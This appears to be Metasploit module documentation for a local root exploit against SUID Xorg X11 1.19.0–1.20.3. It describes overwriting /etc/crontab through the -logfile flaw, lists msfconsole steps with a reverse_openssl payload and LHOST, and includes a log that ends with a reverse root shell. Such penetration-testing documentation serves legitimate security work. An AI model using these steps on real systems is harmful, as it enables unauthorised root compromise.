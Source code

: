 ## Description

  This module attempts to gain root privileges using Xorg X11 server versions 1.19.0 < 1.20.3 set as SUID.  A permission check flaw exists for -modulepath and -logfile options when starting Xorg.  This flaw allows users to write over existing files on the system.  This exploit backs up crontab and then uses -logfile to overwrite it.  A command to be run is set for the Font Path argument -fp which will be logged and ran by cron.        


## Vulnerable Application

  Xorg (commonly referred as simply X) is the most popular display server among Linux users. Its ubiquity has led to making it an ever-present requisite for GUI applications, resulting in massive adoption from most distributions.  

  Xorg is more restrictive to exploit under CentOS.  The user must have console lock and SeLinux may interfere.  If Selinux is enforcing crontabs context will be changed on exploit and you will be unable to clean it.  

  This module has been tested successfully on:

  * OpenBSD 6.3
  * OpenBSD 6.4
  * CentOS 7.5.1084 x86_64


## Verification Steps
  On CentOS your session must have console lock.  To get a console lock you can login locally with a user.  

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/multi/local/xorg_x11_suid_server`
  4. Do: Set a payload/target or use default(cmd/unix/reverse_openssl)   
  5. Do: `set SESSION [SESSION]`
  6. Do: `set LHOST [LHOST]`
  7. Do: `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

## Advanced Options

  **Xdisplay**

  Display to use for Xorg (default: `:1`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


   **ConsoleLock**
   
  Will check for console lock under linux  (default: `true`)


## Scenarios

```
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse double SSL handler on 172.30.0.2:4444
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t2XWfcWkZHevLPS8;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t2XWfcWkZHevLPS8\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.30.0.2:4444 -> 172.30.0.99:41253) at 2018-11-12 15:06:39 -0600
[+] Returning session after cleaning
[+] Deleted /tmp/.session-odRjfx

id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```
